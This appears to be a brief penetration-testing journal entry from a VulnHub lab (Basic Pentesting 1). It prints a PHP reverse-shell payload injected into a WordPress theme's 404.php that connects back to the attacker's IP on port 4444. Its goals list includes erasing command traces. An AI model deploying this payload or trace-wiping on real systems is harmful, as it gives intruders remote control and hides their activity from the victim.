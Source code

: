 ## Day 002 – June 15, 2025

### Engagement Target
**VulnHub Box:** Basic Pentesting 1  
**Target IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  

---

### Goals
- [x] Regain WordPress admin access
- [x] Inject and trigger PHP reverse shell
- [x] Upgrade to TTY shell
- [x] Enumerate local users and system
- [x] Escalate privileges to root
- [x] Clean up artifacts and command traces

---

### 🧨 Initial Access

**Entry Vector:** WordPress Theme Editor → `404.php`  
**Injected Payload:**
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?

<!--stackedit_data:
eyJoaXN0b3J5IjpbMTY0NjQ0NDU4N119
-->